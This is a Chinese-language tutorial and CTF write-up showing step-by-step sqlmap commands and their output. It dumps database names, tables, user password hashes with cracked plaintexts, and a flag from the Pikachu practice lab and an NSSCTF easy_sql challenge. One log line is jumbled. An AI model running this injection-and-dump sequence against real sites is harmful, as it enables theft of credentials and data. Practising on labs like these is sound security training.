 ---
# 通过sqlmap拿下数据库
有些题目sqlmap扫不出来(比如***1[极客大挑战 2019]LoveSQL 1***)       
解决办法：用burpsuite抓包，将请求包放在txt文件中，使用`-r txt文件路径`
```batch
python sqlmap.py -r 请求包.txt -dbs
```
再不行就可能是题目限制了关键词`(select, union, from, where等)`的使用，慢慢审计代码吧
## 以pikachu为例
### 数据库名
```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -dbs
```
```python
[18:08:19] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 5.6.9, PHP
back-end DBMS: MySQL >= 5.6
[18:08:19] [INFO] fetching database names
available databases [6]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] pikachu
[*] root
[*] sys

[18:08:19] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\localhost'
```
拿到信息：
* MySQL >= 5.6
* Apache 2.4.39, PHP 5.6.9, PHP
* 数据库名
    * information_schema
    * mysql
    * performance_schema
    * pikachu
    * root
    * sys
### 当前数据库名
```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --current-db --batch
```
```python
[18:09:32] [INFO] fetching current database
current database: 'root'
```
拿到信息：
* 当前数据库名：root
### 列出表名
```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D root -tables --batch
```
~~~sql
[18:10:18] [INFO] fetching tables for database: 'root'
Database: root
[5 tables]
+----------+
| member   |
| httpinfo |
| message  |
| users    |
| xssblind |
+----------+
~~~
### 列出列名
```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D root -T users --columns --batch
```
```sql
[18:10:59] [INFO] fetching columns for table 'users' in database 'root'
Database: root
Table: users
[4 columns]
+----------+------------------+
| Column   | Type             |
+----------+------------------+
| level    | int(11)          |
| id       | int(10) unsigned |
| password | varchar(66)      |
| username | varchar(30)      |
+----------+------------------+
```
### 列出数据
```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D root -T users -C username,password -dump --batch
```
```sql
[INFO18:12:04] cracked password '] [abc123INFO' for user '] current status: Manet... /test'
Database: root
Table: users
[3 entries]
+----------+-------------------------------------------+
| username | password                                  |
+----------+-------------------------------------------+
| admin    | e10adc3949ba59abbe56e057f20f883e (123456) |
| pikachu  | 670b14728ad9902aecba32e22fa4f6bd (000000) |
| test     | e99a18c428cb38d5f260853678922e03 (abc123) |
+----------+-------------------------------------------+
```
## [SWPUCTF 2021 新生赛]easy_sql
### 数据库名
```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -dbs
```
```sql
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] test
[*] test_db
```
### 当前数据库名
```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" --current-db --batch
```
```sql
[18:28:26] [INFO] fetching current database
current database: 'test_db'
```
### 列出表名
```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -D test_db -tables --batch
```
```sql
Database: test_db
[2 tables]
+---------+
| test_tb |
| users   |
+---------+
```
### 列出列名
```batch
D:\Desktop\sqlmap-1.8\sqlmap-1.8>python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -D test_db -T test_tb --columns --batch
```
```sql
Database: test_db
Table: test_tb
[2 columns]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| flag   | varchar(50) |
| id     | int(11)     |
+--------+-------------+
```
### 列出数据
```batch
python sqlmap.py -u "http://node4.anna.nssctf.cn:28145/?wllm=1" -D test_db -T test_tb --C flag -dump --batch
```
```sql
[18:30:48] [INFO] fetching entries of column(s) 'flag' for table 'test_tb' in database 'test_db'
Database: test_db
Table: test_tb
[1 entry]
+----------------------------------------------+
| flag                                         |
+----------------------------------------------+
| NSSCTF{3ece377d-0b31-4ea2-9fb4-8324d7cdeb83} |
+----------------------------------------------+
```
得到flag：NSSCTF{3ece377d-0b31-4ea2-9fb4-8324d7cdeb83}
## 总结
1. 先爆数据库名
```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -dbs
```
2. 指定数据库名爆表名
```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -tables
```
3. 指定表名爆列名
```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users --columns
```
4. 指定列名爆数据
```batch
python sqlmap.py -u "http://localhost/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users -C username,password -dump
```